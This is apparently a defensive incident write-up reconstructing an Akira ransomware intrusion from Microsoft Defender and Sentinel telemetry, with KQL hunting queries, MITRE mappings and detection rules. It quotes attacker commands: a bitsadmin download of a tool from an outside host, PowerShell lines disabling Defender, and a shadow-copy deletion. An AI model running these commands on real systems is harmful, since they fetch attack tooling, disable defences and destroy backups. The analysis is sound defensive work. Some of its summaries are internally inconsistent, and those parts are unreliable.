




# Sentinel Threat Hunt — Akira Ransomware Incident Reconstruction

> All investigation screenshots and artifacts are stored in the `/evidence` directory.

---

# Overview

This investigation reconstructs a **human-operated ransomware intrusion** involving the **Akira ransomware family** using telemetry from **Microsoft Defender for Endpoint** and **Microsoft Sentinel**.

The investigation began with Defender alerts indicating suspicious PowerShell activity that downloaded and executed multiple binaries including:

- `scan.exe`
- `advanced_ip_scanner.exe`
- `wsync.exe`

Further analysis revealed a full attack lifecycle involving:

- internal reconnaissance
- credential access
- lateral movement
- data staging
- ransomware deployment

Two systems were involved:

| System | Role |
|------|------|
AS-PC2 | Initial compromised workstation |
AS-SRV | File server targeted for ransomware |

---



# Investigation Methodology

The investigation followed a standard threat hunting workflow:

1. Review Defender alert telemetry
2. Reconstruct process execution timeline
3. Identify attacker tools
4. Detect lateral movement
5. Identify data staging
6. Confirm ransomware execution

Primary telemetry sources:

- DeviceProcessEvents
- DeviceFileEvents
- DeviceEvents
- DeviceNetworkEvents
- DeviceLogonEvents

---

# Initial Investigation

The investigation began by reconstructing the execution timeline for the compromised user.

### Query

```kql
DeviceProcessEvents
| where DeviceName == "as-pc2"
| where AccountName =~ "david.mitchell"
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessCommandLine
| order by Timestamp
```

This query revealed suspicious binaries including:

- `scan.exe`
- `advanced_ip_scanner.exe`
- `wsync.exe`

---

<details>
<summary>Evidence — Initial Query Results</summary>


</details>

---

# Malware Download

The attacker downloaded a scanning utility using **BITSAdmin**, a living-off-the-land binary.

Observed command:

```
bitsadmin /transfer job1 https://sync.cloud-endpoint.net/scan.exe
```

MITRE Technique:

```
T1105 — Ingress Tool Transfer
```

---

<details>
<summary>Evidence — Malware Download</summary>


</details>

---

# Network Reconnaissance

The attacker executed **Advanced IP Scanner** to identify internal hosts.

Purpose:

- discover reachable systems
- identify lateral movement targets

MITRE Technique:

```
T1046 — Network Service Discovery
```

---

<details>
<summary>Evidence — Network Scanning</summary>


</details>

---

# Command and Control Beacon

A suspicious binary named **wsync.exe** was downloaded and executed from:

```
C:\ProgramData\wsync.exe
```

This executable acted as a **command-and-control beacon**.

---

<details>
<summary>Evidence — Beacon Execution</summary>


</details>

---

# Credential Access

Telemetry shows that **LSASS memory was accessed**, indicating potential credential dumping.

MITRE Technique:

```
T1003.001 — LSASS Memory
```

---

<details>
<summary>Evidence — LSASS Access</summary>


</details>

---

# Defense Evasion

The attacker disabled Microsoft Defender protections using PowerShell.

Observed commands:

```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

Registry modification:

```
HKLM\SOFTWARE\Policies\Microsoft\Windows Defender
DisableAntiSpyware
```

MITRE Technique:

```
T1562 — Impair Defenses
```

---

<details>
<summary>Evidence — Defender Tampering</summary>


</details>

---

# Backup Deletion

To prevent recovery, the attacker attempted to delete shadow copies.

Observed command:

```
WMIC shadowcopy delete
```

MITRE Technique:

```
T1490 — Inhibit System Recovery
```

---

<details>
<summary>Evidence — Shadow Copy Deletion</summary>


</details>

---

## Lateral Movement

### Objective
Determine how the attacker pivoted from the compromised workstation (**AS-PC2**) to other systems within the environment.

---

### Step 1: Identify SMB-Based Reconnaissance

After initial execution of `scan.exe`, the attacker used **Advanced IP Scanner** to enumerate internal systems over SMB (port 445).

#### KQL Query
    DeviceNetworkEvents
    | where DeviceName =~ "as-pc2"
    | where InitiatingProcessFileName =~ "advanced_ip_scanner.exe"
    | where RemotePort == 445
    | project Timestamp, RemoteIP, InitiatingProcessFileName
    | order by Timestamp asc

#### Key Findings

- SMB connections initiated from **AS-PC2**
- Process: `advanced_ip_scanner.exe`
- Indicates transition from reconnaissance → targeting internal systems

---

### Step 2: Identify True Pivot Targets via Named Pipes

To distinguish between broad scanning and actual attacker interaction, **Named Pipe telemetry** was analyzed.

#### KQL Query
    DeviceEvents
    | where DeviceName =~ "as-pc2"
    | where ActionType == "NamedPipeEvent"
    | extend PipeName = tostring(parse_json(AdditionalFields).PipeName)
    | where PipeName contains "srvsvc"
    | project Timestamp, PipeName, InitiatingProcessFileName
    | order by Timestamp asc

#### Key Findings

    1/27/2026 8:18:31 PM → \Device\Mup\10.1.0.183\PIPE\srvsvc
    1/27/2026 8:18:42 PM → \Device\Mup\10.1.0.203\PIPE\srvsvc
    Process: advanced_ip_scanner.exe

#### Interpretation

- `srvsvc` pipe usage indicates interaction with remote systems over SMB
- These IPs represent **high-confidence lateral movement targets**
- This step removes noise from broad scan results

---

### Key Insight

> Not all scanned hosts are lateral movement targets.  
> Only systems with `srvsvc` interaction represent **actual attacker engagement over SMB**.

---

### Step 3: Validate Successful Lateral Movement

While multiple systems were probed, only one system showed **post-compromise activity**.

#### KQL Query
    DeviceProcessEvents
    | where DeviceName =~ "as-srv"
    | where Timestamp between (datetime(2026-01-27 20:15:00) .. datetime(2026-01-27 22:00:00))
    | where FileName !in~ ("TrustedInstaller.exe","TiWorker.exe","MicrosoftEdgeUpdate.exe","csc.exe","cvtres.exe","conhost.exe")
    | project Timestamp, DeviceName, FileName, ProcessCommandLine, AccountName
    | order by Timestamp asc

---

### Step 4: Evidence of Remote Execution on AS-SRV

#### Key Observations

- `taskhostw.exe` executed under **as.srv.administrator**
- Execution occurred shortly after SMB interaction window
- Indicates **successful authentication and remote execution**

#### Supporting Context

- Activity originated from compromised user: `david.mitchell`
- Remote interaction leveraged SMB (`srvsvc`)
- Follow-on activity included:
  - Tool deployment (AnyDesk, wsync)
  - Data staging
  - Ransomware execution

---

### 📸 Evidence

<details>
<summary>SMB Scanning Activity</summary>



</details>

<details>
<summary>Named Pipe (srvsvc) Interaction</summary>



</details>

<details>
<summary>Process Execution on AS-SRV</summary>



</details>

---

### Final Assessment

- The attacker performed **network reconnaissance** using `AdvancedIPScanner`
- SMB scanning alone produced many potential targets (noise)
- `srvsvc` named pipe telemetry was used to isolate **true interaction points**
- Two systems were probed:
  - `10.1.0.183`
  - `10.1.0.203`
- Only **AS-SRV** showed:
  - Successful authentication
  - Execution under administrative context
  - Full post-exploitation activity

---

### Conclusion

> Lateral movement was achieved via SMB using valid credentials, confirmed through `srvsvc` named pipe interaction and subsequent process execution on AS-SRV.

---

### MITRE ATT&CK Mapping

| Technique | Description |
|----------|------------|
| T1021.002 | SMB/Windows Admin Shares |
| T1046 | Network Service Discovery |
| T1078 | Valid Accounts |

---

## Credential Access & Expansion

### Objective
Determine how credentials were obtained and used throughout the attack.

---

### Findings

- A burst of failed authentication attempts was observed:
  - ~9:21 PM → multiple failed logons
  - ~9:23 PM → successful authentication

- This activity occurred **after confirmed lateral movement to AS-SRV**

---

### Analysis

This indicates the brute force activity was not used for initial access, but instead:

- Credential validation
- Privilege escalation attempts
- Establishing persistence via additional accounts

---

### Key Insight

> The attacker already had valid access prior to brute force activity, as evidenced by earlier SMB pivoting and execution on AS-SRV.

---

### MITRE ATT&CK Mapping

| Technique | Description |
|----------|------------|
| T1110 | Brute Force |
| T1078 | Valid Accounts |

---

<details>
<summary>Evidence — Login Attempts</summary>


</details>

# Activity on AS-SRV

Once on the server, the attacker executed several tools including:

- AnyDesk
- network enumeration
- archive creation
- ransomware execution

---

<details>
<summary>Evidence — Remote Access Tool</summary>


</details>

---

# Data Staging

Files were compressed into an archive prior to encryption.

Archive created:

```
exfil_data.zip
```

MITRE Technique:

```
T1560 — Archive Collected Data
```

---

<details>
<summary>Evidence — Data Archive</summary>


</details>

---

# Ransomware Execution

The ransomware payload executed as:

```
updater.exe
```

Encrypted files were identified with the `.akira` extension.

MITRE Technique:

```
T1486 — Data Encrypted for Impact
```

---

<details>
<summary>Evidence — Encrypted Files</summary>


</details>

---

<details>
<summary>Evidence — Ransom Note Creation</summary>


</details>

---

# Process Lineage Reconstruction

The reconstructed process tree shows the full attack lifecycle.

```
explorer.exe
 └─ cmd.exe
     └─ bitsadmin.exe
         └─ scan.exe
             └─ advanced_ip_scanner.exe
                 └─ wsync.exe
                     └─ powershell.exe
                         ├─ st.exe
                         └─ updater.exe
```

---

# MITRE ATT&CK Mapping

| Stage | Technique |
|------|------|
Initial Access | T1110 — Brute Force |
Discovery | T1046 — Network Discovery |
Credential Access | T1003 — LSASS |
Lateral Movement | T1021 — Remote Services |
Defense Evasion | T1562 — Impair Defenses |
Collection | T1560 — Data Archiving |
Impact | T1486 — Ransomware |

---

# Detection Engineering

The following KQL detections could identify similar activity in the future.

### Detect BITS Malware Downloads

```kql
DeviceProcessEvents
| where FileName == "bitsadmin.exe"
| where ProcessCommandLine contains "http"
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```

---

### Detect Defender Tampering

```kql
DeviceProcessEvents
| where ProcessCommandLine contains "Set-MpPreference"
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```

---

### Detect Shadow Copy Deletion

```kql
DeviceProcessEvents
| where ProcessCommandLine contains "shadowcopy"
or ProcessCommandLine contains "vssadmin delete"
```

---

### Detect Credential Dumping Indicators

```kql
DeviceEvents
| where ActionType == "NamedPipeEvent"
| where AdditionalFields contains "lsass"
```

---

### Detect Suspicious Archive Creation

```kql
DeviceFileEvents
| where FileName endswith ".zip"
| where InitiatingProcessFileName != "explorer.exe"
```

---

# Detection Coverage Gap Analysis

During this investigation several attacker behaviors occurred without triggering preventative controls.

The following detection gaps were identified.

---

## Living-off-the-Land Binary Abuse

The attacker used **BITSAdmin** to download malicious tooling.

Observed command:

```
bitsadmin /transfer job1 https://sync.cloud-endpoint.net/scan.exe
```

Recommended detection:

```kql
DeviceProcessEvents
| where FileName == "bitsadmin.exe"
| where ProcessCommandLine contains "http"
```

---

## Defender Tampering

Security controls were disabled prior to further attack activity.

Recommended detection:

```kql
DeviceProcessEvents
| where ProcessCommandLine contains "Set-MpPreference"
```

---

## Shadow Copy Deletion

Shadow copies were deleted before ransomware deployment.

Recommended detection:

```kql
DeviceProcessEvents
| where ProcessCommandLine contains "shadowcopy"
or ProcessCommandLine contains "vssadmin delete"
```

---

## Credential Dumping Indicators

LSASS memory access occurred without triggering high-confidence alerts.

Recommended detection:

```kql
DeviceEvents
| where ActionType == "NamedPipeEvent"
| where AdditionalFields contains "lsass"
```

---

# Conclusion

This investigation reconstructed a **human-operated ransomware intrusion** using Microsoft Defender telemetry and Sentinel queries.

The attacker:

1. gained access via compromised credentials  
2. conducted reconnaissance using Advanced IP Scanner  
3. downloaded tooling via BITSAdmin  
4. deployed a command-and-control beacon (`wsync.exe`)  
5. disabled Microsoft Defender protections  
6. accessed LSASS memory for credential harvesting  
7. pivoted laterally to AS-SRV  
8. staged data for exfiltration  
9. cleared system logs  
10. deployed Akira ransomware

This investigation demonstrates how **endpoint telemetry and proactive threat hunting techniques can reconstruct attacker behavior and inform defensive improvements.**
